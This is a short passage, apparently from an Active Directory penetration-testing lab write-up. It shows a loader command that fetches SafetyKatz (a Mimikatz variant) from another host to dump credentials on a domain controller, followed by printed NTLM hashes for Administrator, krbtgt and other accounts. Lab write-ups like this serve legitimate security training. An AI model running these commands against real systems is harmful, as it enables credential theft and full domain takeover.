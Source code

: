 Use `Loader.exe` to load Mimikatz and dump all the hashes on DC:

```
Loader.exe -path http://192.168.100.64/SafetyKatz.exe "lsadump::lsa /patch"
```

![picture 48](images/ca648a7666e5f4b55ef035e42984e3cad5fee0577953e0701d3cbedf14a102fc.png)  

Dump:

```
mimikatz(commandline) # lsadump::lsa /patch
Domain : US / S-1-5-21-210670787-2521448726-163245708

RID  : 000001f4 (500)
User : Administrator
LM   :
NTLM : 43b70d2d979805f419e02882997f8f3f

RID  : 000001f5 (501)
User : Guest
LM   :
NTLM :

RID  : 000001f6 (502)
User : krbtgt
LM   :
NTLM : b0975ae49f441adc6b024ad238935af5

RID  : 00000458 (1112)
User : emptest
LM   :
NTLM : 216fa4d07d30bdf282443cf7241abb8b

RID  : 0000045a (1114)
User : adconnect
LM   :
NTLM : 4e150424ccf419d83ce3a8ad1db7b94a

RID  : 0000045b (1115)
User : mgmtadmin
```